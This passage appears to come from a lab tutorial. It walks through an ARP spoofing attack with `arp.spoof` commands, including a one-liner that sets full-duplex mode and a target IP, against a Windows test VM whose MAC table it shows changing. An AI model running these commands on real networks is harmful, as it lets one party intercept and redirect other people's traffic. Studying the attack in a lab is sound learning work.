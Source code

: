 - Now, we can use the `arp.spoof on` command to start the ARP spoofing attack.

  ```bash
  arp.spoof on
  ```

- If we want to run this as 1 command, we can use the following command:

  ```bash
  set arp.spoof.fullduplex true;set arp.spoof.targets <target_ip>;arp.spoof on
  ```

  ![](/imgs/Screenshot%20(12).png)

  Now, if we check the Target Windows Vm, we can clearly see, the MACs changed.
